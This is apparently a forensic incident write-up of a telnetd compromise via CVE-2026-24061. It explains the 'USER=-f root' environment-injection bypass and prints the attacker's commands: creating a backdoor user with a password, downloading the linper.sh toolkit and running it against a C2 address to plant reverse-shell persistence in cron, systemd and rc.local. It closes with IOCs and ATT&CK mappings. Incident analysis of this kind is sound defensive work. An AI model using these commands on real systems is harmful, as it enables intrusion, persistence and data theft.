






### <span style="color:lightblue">TL;DR</span>
An attacker at `192.168.72.136` exploited CVE-2026-24061 in GNU inetutils
telnetd to gain an unauthenticated root shell via Telnet option negotiation
abuse. A backdoor user `cleanupsvc` was created, and the `linper.sh`
persistence toolkit was deployed across cron and systemd. The attacker then
stood up an HTTP server and exfiltrated `credit-cards-25-blackfriday.db`
before deleting it from the victim.

### <span style="color:red">Packets overview</span>



### <span style="color:red">CVE-2026-24061</span>
CVE-2026-24061 is a critical authentication bypass vulnerability in GNU
inetutils telnetd. During Telnet option negotiation, a remote client can
inject environment variables using the NEW-ENVIRON mechanism (RFC 1572).
On vulnerable versions, the value of `USER` is forwarded unsanitized to
the system login program — setting `USER=-f root` causes `login` to treat
the session as pre-authenticated, yielding an unauthenticated root shell.
The injected value is interpreted as a command-line flag rather than a
username because telnetd passes `USER` directly as an argument to
`/bin/login`.



At `2026-01-27 10:39` the attacker (`192.168.72.136`) exploited
CVE-2026-24061 and obtained root access without credentials.

### <span style="color:red">Persistence</span>
After gaining root, the attacker created a backdoor user with a hardcoded
password:
```console
sudo useradd -m -s /bin/bash cleanupsvc
echo "cleanupsvc:YouKnowWhoiam69" | sudo chpasswd
```

The persistence toolkit `linper.sh` was then downloaded from GitHub:
```console
wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh
```

`linper.sh` installed reverse shell callbacks using `awk`, `bash`, `nc`,
`perl`, `pwsh`, `python3`, and `telnet` across multiple persistence
locations targeting `91.99.25.54`:
```console
bash linper.sh --enum-defenses 91.99.25.54
Persistence Installed: awk using /var/spool/cron/crontabs/root
Persistence Installed: awk using /etc/crontab
Persistence Installed: awk using /etc/cron.d/
Persistence Installed: awk using /etc/systemd/
-----------------------
Persistence Installed: bash using /var/spool/cron/crontabs/root
Persistence Installed: bash using /etc/crontab
Persistence Installed: bash using /etc/cron.d/
Persistence Installed: bash using /etc/systemd/
Persistence Installed: bash using /etc/rc.local
...[snip]...
```

Persistence locations written:
```
/var/spool/cron/crontabs/root
/etc/crontab
/etc/cron.d/
/etc/systemd/
/etc/rc.local
```

### <span style="color:red">Exfiltration</span>
The attacker deployed an HTTP server on port `6932` and at
`2026-01-27 10:49:54` exfiltrated `credit-cards-25-blackfriday.db`,
then deleted the file from the victim server to cover their tracks.



### <span style="color:lightblue">IOCs</span>

**Network**  
\- Attacker: `192.168.72.136`  
\- C2: `91.99.25.54`  
\- Exfil server port: `6932`  

**Files**  
\- `credit-cards-25-blackfriday.db` — exfiltrated and deleted  
\- `linper.sh` — persistence toolkit from `github.com/montysecurity/linper`  

**Credentials**  
\- `cleanupsvc:YouKnowWhoiam69` — backdoor user  

### <span style="color:lightblue">MITRE ATT&CK</span>

| Technique | ID | Description |
|-----------|-----|-------------|
| Exploit Public-Facing Application | T1190 | CVE-2026-24061 telnetd auth bypass |
| Create Account: Local Account | T1136.001 | backdoor user `cleanupsvc` |
| Scheduled Task/Job: Cron | T1053.003 | linper.sh crontab persistence |
| Boot or Logon Initialization Scripts | T1037 | `/etc/rc.local` persistence |
| Systemd Service | T1543.002 | `/etc/systemd/` persistence |
| Exfiltration Over Alternative Protocol | T1048 | HTTP server on port 6932 |
| Data Destruction | T1485 | deleted db file post-exfiltration |